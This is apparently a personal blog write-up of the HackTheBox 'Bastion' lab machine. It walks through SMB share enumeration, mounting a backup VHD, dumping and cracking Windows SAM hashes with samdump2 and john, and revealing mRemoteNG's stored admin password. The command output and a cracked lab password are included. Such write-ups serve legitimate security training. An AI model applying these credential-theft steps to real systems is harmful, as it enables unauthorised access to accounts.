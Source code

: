 +++
title = "HTB Write-up: Bastion"
date = "2019-09-08T12:40:00+02:00"
description = "Bastion just retired this weekend on HackTheBox.eu so I thought I would do a short write-up of what I learned during this Windows box."
draft = false
toc = false
categories = ["post"]
tags = ["htb", "ctf", "windows", "smb", "nRemoteNG", "john"]
images = [
  "https://0xrick.github.io/images/hackthebox/bastion/0.png"
] # overrides site-wide open graph image

+++

The Bastion Windows box retired this weekend on {{< external href="https://www.hackthebox.eu/" text="HackTheBox" />}}. It was a Windows box, quite easy to solve but learned a lot along the way. It's my first write-up of a HTB box so it might not be the best but hopefully it will be a nice summary! We learn about SMB, mounting VHD in Linux, stealing Windows hashes, cracking them with John, and exploiting a program for Privesc.

![Bastion badge](/bastion.png)

## 1: Recon

First, I do the usual nmap scan I start with on all boxes:
{{< hackcss-alert type="info" >}}
nmap -A -oN nmap-bastion.txt 10.10.10.134<br>
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-20 08:43 GMT<br>
Nmap scan report for 10.10.10.134<br>
Host is up (0.34s latency).<br>
Not shown: 996 closed ports<br>
PORT    STATE SERVICE      VERSION<br>
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)<br>
| ssh-hostkey: <br>
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)<br>
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)<br>
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)<br>
135/tcp open  msrpc        Microsoft Windows RPC<br>
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn<br>
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds<br>
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows<br>
<br>
Host script results:<br>
|_clock-skew: mean: -40m01s, deviation: 1h09m15s, median: -2s<br>
| smb-os-discovery: <br>
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)<br>
|   Computer name: Bastion<br>
|   NetBIOS computer name: BASTION\x00<br>
|   Workgroup: WORKGROUP\x00<br>
|_  System time: 2019-07-20T10:43:23+02:00<br>
| smb-security-mode: <br>
|   account_used: guest<br>
|   authentication_level: user<br>
|   challenge_response: supported<br>
|_  message_signing: disabled (dangerous, but default)<br>
| smb2-security-mode: <br>
|   2.02: <br>
|_    Message signing enabled but not required<br>
| smb2-time: <br>
|   date: 2019-07-20 08:43:22<br>
|_  start_date: 2019-07-20 02:31:48
{{< /hackcss-alert >}}

The open ports are not too exciting but we've got SMB, so let's see if we can exploit it.
{{< hackcss-alert type="info" >}}
root@kali:~/Desktop/HTB/Bastion# smbclient -L //10.10.10.134<br>
Enter WORKGROUP\Root's password: <br>
<br>
	Sharename       Type      Comment<br>
	---------       ----      -------<br>
	ADMIN$          Disk      Remote Admin<br>
	Backups         Disk      <br>
	C$              Disk      Default share<br>
	IPC$            IPC       Remote IPC<br>
Reconnecting with SMB1 for workgroup listing.<br>
do_connect: Connection to 10.10.10.134 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)<br>
Failed to connect with SMB1 -- no workgroup available
{{< /hackcss-alert >}}

Alright, now we can access Backups by using Null session:
{{< hackcss-alert type="info" >}}
root@kali:~/Desktop/HTB/Bastion# smbclient //10.10.10.134/backups<br>
Enter WORKGROUP\'s password:<br>
Try "help" to get a list of possible commands.<br>
smb: \> l<br>
  .                                   D        0  Fri Sep  6 13:39:45 2019<br>
  ..                                  D        0  Fri Sep  6 13:39:45 2019<br>
  note.txt                           AR      116  Tue Apr 16 12:10:09 2019<br>
  pFESbxwaWT                          D        0  Fri Sep  6 13:39:45 2019<br>
  SDT65CB.tmp                         A        0  Fri Feb 22 14:43:08 2019<br>
  WindowsImageBackup                  D        0  Fri Feb 22 14:44:02 2019<br>
<br>
                7735807 blocks of size 4096. 2759330 blocks available
{{< /hackcss-alert >}}

I found note.txt but nothing interesting there. But there is a directory called WindowsImageBackup!

<br>
## 2: Mounting the VHD to get user

In the WindowsImageBackup we find 2 VHD files:
{{< hackcss-alert type="info" >}}
9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd      A 37761024  Fri Feb 22 14:44:03 2019<br>
9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd      A 5418299392  Fri Feb 22 14:45:32 2019
{{< /hackcss-alert >}}

They are big files so we want to avoid downloading them. After a LOT of googling and every more failed attempts, I found the way to mount VHD files in linux. First I needed to install {{< external href="https://www.varonis.com/blog/cifs-vs-smb/" text="CIFS" />}}:
{{< hackcss-alert type="info" >}}
root@kali:~/Desktop/HTB/Bastion# sudo apt-get install cifs-utils<br>
{{< /hackcss-alert >}}

The first and smaller VHD didn't contain anything of interest so let's go straight to the second one:
{{< hackcss-alert type="info" >}}
root@kali:~/Desktop/HTB/Bastion# mount.cifs //10.10.10.134/Backups ./mount<br>
root@kali:~/Desktop/HTB/Bastion# guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --ro ~/Desktop/HackTheBox/Bastion/vhd-mount2 -m /dev/sda1
{{< /hackcss-alert >}}

Wait a few seconds and the VHD should appear as a mounted folder in your system now! I checked the Users folder but nothing there which means there is another step to getting user.txt. After getting back to more googling, I found some info about extracting the hashes in a Windows backup in /System32/config by using {{< external href="https://linux.die.net/man/1/samdump2" text="samdump2" />}}:
{{< hackcss-alert type="info" >}}
samdump2 SYSTEM SAM<br>
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br>
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br>
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
{{< /hackcss-alert >}}

I saved the hash in a txt file to crack it with john:
{{< hackcss-alert type="info" >}}
root@kali:~/Desktop/HTB/Bastion# john --format=NT --rules -w=/usr/share/wordlists/rockyou.txt hash.txt<br>
Using default input encoding: UTF-8<br>
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])<br>
Warning: no OpenMP support for this hash type, consider --fork=3<br>
Press 'q' or Ctrl-C to abort, almost any other key for status<br>
bureaulampje     (L4mpje)<br>
1g 0:00:00:05 DONE (2019-07-20 12:55) 0.1709g/s 1606Kp/s 1606Kc/s 1606KC/s burg772v..burdy1<br>
Use the "--show --format=NT" options to display all of the cracked passwords reliably<br>
Session completed
{{< /hackcss-alert >}}

Awesome I got the password "bureaulampje"! I know SSH is available on this box from the nmap scan:
{{< hackcss-alert type="info" >}}
root@kali:~/Desktop/HTB/Bastion# ssh L4mpje@10.10.10.134
{{< /hackcss-alert >}}

And I find the user.txt on the Desktop of the machine!

<br>
## 3: Priviledge Escalation

I did a lot of enumeration suggested on different Windows privesc guides, and finally found a weird program sitting in Program Files called nRemoteNG. A quick google search shows that it is vulnerable and can get us admin password: http://hackersvanguard.com/mremoteng-insecure-password-storage/

I download nRemoteNG on my Windows VM. I used {{< external href="https://winscp.net/eng/index.php" text="WinSCP" />}} to access C:\Users\L4mpje\AppData\Roaming\mRemoteNG and download consConf.xml on my VM. Then I import it on nRemoteNG and to see the clear text of a given password, go to “Tools” > “External Tools”. Then right-click in the white space and choose “New External Tool”. Next, in the External Tools Properties, fill in a “Display Name”, “Filename” and some “arguments”, with “Password lookup”, CMD and “/k echo %password%” respectively.

![nRemoteNG screenshot](/nremoteng.png)

Then right click on the Bastion connection, external tool, Password Lookup, and we get the Admin password. We can now SSH with Administrator and get the root flag!
{{< hackcss-alert type="info" >}}
root@kali:~/Desktop/HTB/Bastion# ssh Administrator@10.10.10.134<br>
{{< /hackcss-alert >}}

![Master hacker gif](/masterhack.gif)
